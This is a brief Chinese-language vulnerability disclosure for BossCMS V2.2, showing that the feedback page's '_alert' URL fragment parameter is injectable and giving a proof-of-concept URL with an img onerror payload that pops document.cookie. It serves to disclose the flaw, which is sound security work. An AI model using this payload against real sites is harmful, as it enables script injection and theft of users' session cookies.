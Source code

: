 ### 源码

地址：<https://www.bosscms.net/download/>

BossCms V2.2

前台的 feedback 功能点

在我成功提交反馈的时候会弹出个提示

~~~~
http://bosscms.test.com/feedback/#_alert=%E5%8F%8D%E9%A6%88%E6%8F%90%E4%BA%A4%E6%88%90%E5%8A%9F%EF%BC%81,green
~~~~

POC

~~~
http://bosscms.test.com/feedback/#_alert="><img src=# onerror=alert(document.cookie)>,green
~~~



![1698385097384](BossCMS_XSS.assets/1698385097384.png)